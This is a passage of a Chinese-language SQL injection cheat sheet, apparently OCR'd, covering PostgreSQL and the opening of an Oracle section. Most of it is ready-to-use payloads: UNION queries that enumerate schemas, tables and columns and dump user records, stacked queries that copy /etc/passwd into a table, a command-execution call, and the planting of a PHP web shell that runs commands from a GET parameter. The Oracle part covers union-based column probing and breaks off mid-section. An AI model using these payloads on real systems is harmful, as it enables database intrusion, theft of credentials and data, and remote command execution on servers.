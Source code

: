 COALESCE(expression[,n])    coalesce函数返回参数（列名）中第一个非NULL值得字段值，不是为空''

cast('1' as numeric)转换为数字类型

也可写成 ?id=1 UNION SELECT NULL,schemaname,NULL FROM pg_tables--+

用户创建的数据库默认模式名称为public



获取数据表名称

?id=1 UNION SELECT NULL,tablename,NULL FROM pg_tables WHERE schemaname in ('public')



获取表字段名称

?id=1 UNION SELECT NULL,attname,NULL FROM pg_namespace,pg_type,pg_attribute b JOIN pg_class a ON a.oid=b.attrelid WHERE a.relnamespace=pg_namespace.oid AND pg_type.oid=b.attypid AND attnum>0 AND a.relname='tbuser' AND nspname='public'--+



获取表内容

?id=1 UNION SELECT NULL,id|| '.'||username

### 读取文件

select pg_read_file(filepath+filename);

?id=1;CREATE TABLE passwd(t TEXT);COPY passwd FROM '/etc/passwd';SELECT NULL,t,NULL  FROM passwd;

### 执行命令

select system("command_string");

### 写入文件

COPY (select  '<?php phpinfo();?>') to '/tmp/1.php';

?id=1;DROP TABLE hacktb;CREATE TABLE hacktb (t TEXT);INSERT INTO hacktb(t) VALUES ('<?php @system("$_GET[cmd]");?>')

## Oracle

### union联合查询

order by 定字段

dual为oracle内部的一张表，相当于mysql中的Information_schema

union select null,null...from dual,判断字段类型

union select 'null',null...from dual，返回正常，说明第一个类型是字符型，反之为数字型，以此类推

union 1,2 from dual

若回显位是2

爆第一张表
